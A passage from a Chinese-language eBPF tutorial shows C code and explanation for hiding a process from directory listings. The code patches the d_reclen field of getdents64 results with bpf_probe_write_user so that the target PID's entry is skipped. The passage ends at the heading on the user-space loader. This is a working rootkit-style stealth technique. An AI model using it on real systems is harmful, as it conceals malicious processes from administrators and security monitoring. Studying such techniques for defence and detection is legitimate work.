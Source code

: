 ```c
    short unsigned int d_reclen_previous = 0;
    bpf_probe_read_user(&d_reclen_previous, sizeof(d_reclen_previous), &dirp_previous->d_reclen);

    struct linux_dirent64 *dirp = (struct linux_dirent64 *)(buff_addr+d_reclen_previous);
    short unsigned int d_reclen = 0;
    bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);

    // Debug print
    char filename[MAX_PID_LEN];
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp_previous->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename previous %s\n", filename);
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);
    filename[pid_to_hide_len-1] = 0x00;
    bpf_printk("[PID_HIDE] filename next one %s\n", filename);

    // Attempt to overwrite
    short unsigned int d_reclen_new = d_reclen_previous + d_reclen;
    long ret = bpf_probe_write_user(&dirp_previous->d_reclen, &d_reclen_new, sizeof(d_reclen_new));

    // Send an event
    struct event *e;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e) {
        e->success = (ret == 0);
        e->pid = (pid_tgid >> 32);
        bpf_get_current_comm(&e->comm, sizeof(e->comm));
        bpf_ringbuf_submit(e, 0);
    }

    bpf_map_delete_elem(&map_to_patch, &pid_tgid);
    return 0;
}

```

在 `handle_getdents_patch` 函数中，我们首先检查我们是否已经找到了我们想要隐藏的进程的 PID。然后我们读取目录项的内容，并且修改 `d_reclen` 字段，让它覆盖下一个目录项，这样就可以隐藏我们的目标进程了。

在这个过程中，我们用到了 `bpf_probe_read_user`、`bpf_probe_read_user_str`、`bpf_probe_write_user` 这几个函数来读取和写入用户空间的数据。这是因为在内核空间，我们不能直接访问用户空间的数据，必须使用这些特殊的函数。

在我们完成隐藏操作后，我们会向一个名为 `rb` 的环形缓冲区发送一个事件，表示我们已经成功地隐藏了一个进程。我们用 `bpf_ringbuf_reserve` 函数来预留缓冲区空间，然后将事件的数据填充到这个空间，并最后用 `bpf_ringbuf_submit` 函数将事件提交到缓冲区。

最后，我们清理了之前保存在 map 中的数据，并返回。

这段代码是在 eBPF 环境下实现进程隐藏的一个很好的例子。通过这个例子，我们可以看到 eBPF 提供的丰富的功能，如系统调用跟踪、map 存储、用户空间数据访问、尾调用等。这些功能使得我们能够在内核空间实现复杂的逻辑，而不需要修改内核代码。

## 用户态 eBPF 程序实现

我们在用户态的 eBPF 程序中主要进行了以下几个操作：
